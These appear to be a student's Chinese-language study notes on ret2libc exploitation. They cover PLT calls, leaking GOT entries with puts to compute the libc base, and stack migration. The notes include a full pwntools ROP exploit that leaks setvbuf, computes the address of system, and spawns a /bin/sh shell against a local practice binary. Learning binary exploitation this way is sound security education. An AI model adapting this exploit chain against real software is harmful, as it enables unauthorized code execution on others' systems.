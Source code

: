 # Week5

## from ret2text to ret2libc

### 使用程序自带的函数

- 跳到 .plt entry
- 函数参数直接放在接下来的栈上
- 用 pop-ret 清除用过的参数

<img src="image-20200721061423245.png" alt="image-20200721061423245" style="zoom:67%;" />

### 使用 libc 里的函数

- printf, gets, puts 等都在 libc.so.6
- ROP 直接调用 libc 中的 system
- 使用条件：
  - libc 版本或函数 offset 已知
  - 开启 ASLR 后的 libc 地址随机
- Dynamically Linked ELF:
  - `ldd $binary` 获取 libc 路径
  - `readelf -s $libc` 读 libc 的 symbol
  - `LD_LIBRARY_PATH=$path_to_libc` 指定要载入的 libc 

### 推算 libc base

- 函数在 libc 中的相对位置不变
- 泄露 __libc_start_main 的 got 表内容
  - ROP 构造 `puts(__libc_start_main@got)`
  - 要泄露的 got entry 函数必须调用过
- 已知 libc 版本

**总之就是想调用就跳到 plt，想 leak 就 puts got。**

一个比较有趣的事，开始想用 leak `__libc_start_main`，但是这个版本的 libc 里的地址是 `0001ee00`，所以 puts 输出的时候上来就是一个 `\x00`，不能用了。换了一个 `setvbuf`，都是一样的：

```c++
##coding=utf8
from pwn import *

# r = remote('127.0.0.1', 8888)
r = process('./p3')
offset = 0xffffd5e8 - 0xffffd5d6 + 4

gets = 0x8048350
puts = 0x8048360
libc_start_main_got = 0x0804a018
setvbuf_got = 0x0804a01c
pop_ebp_ret = 0x0804854b
leave_ret = 0x08048408
buf = 0x0804af80
buf2 = 0x0804a880

rop1 = [
    puts,
    pop_ebp_ret,
    # libc_start_main_got,
    setvbuf_got,
    gets,
    pop_ebp_ret,
    buf,
    pop_ebp_ret,
    buf - 4,
    leave_ret,
]

# raw_input()
r.sendline('a'*offset + ''.join(map(p32, rop1)))
print 'recv1:', r.recvline()

setvbuf = r.recvline()
print 'recv2:', "".join("{:x}".format(ord(c)) for c in setvbuf)
libc_base = u32(setvbuf[:4]) - 0x0006fd30
print 'libc base addr = ', hex(libc_base)

system = libc_base + 0x0044620

rop2 = [
    gets,
    system,
    buf2,
    buf2,
]

r.sendline(''.join(map(p32, rop2)))
r.sendline('/bin/sh\x00')
r.interactive()
```

### Stack Migration 构造长 ROP chain

<img src="image-20200721101237783.png" alt="image-20200721101237783" style="zoom:75%;" />

